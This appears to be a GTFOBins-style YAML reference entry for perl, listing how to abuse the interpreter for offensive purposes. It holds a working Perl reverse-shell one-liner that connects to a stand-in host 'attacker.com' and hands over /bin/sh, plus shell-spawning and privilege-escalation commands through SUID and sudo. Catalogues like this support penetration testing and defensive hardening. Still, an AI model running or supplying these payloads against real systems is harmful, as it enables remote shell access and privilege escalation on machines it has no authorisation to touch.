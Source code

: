 ```yaml
---
functions:
  execute-interactive:
  - code: perl -e 'exec "/bin/sh";'
  reverse-shell-interactive:
  - description: Run `nc -l -p 12345` on the attacker box to receive the shell.
    code: |
      export RHOST=attacker.com
      export RPORT=12345
      perl -e 'use Socket;$i="$ENV{RHOST}";$p=$ENV{RPORT};socket(S,PF_INET,SOCK_STREAM,getprotobyname("tcp"));if(connect(S,sockaddr_in($p,inet_aton($i)))){open(STDIN,">&S");open(STDOUT,">&S");open(STDERR,">&S");exec("/bin/sh -i");};'
  suid-enabled:
  - code: ./perl -e 'exec "/bin/sh";'
  sudo-enabled:
  - code: sudo perl -e 'exec "/bin/sh";'
---
```

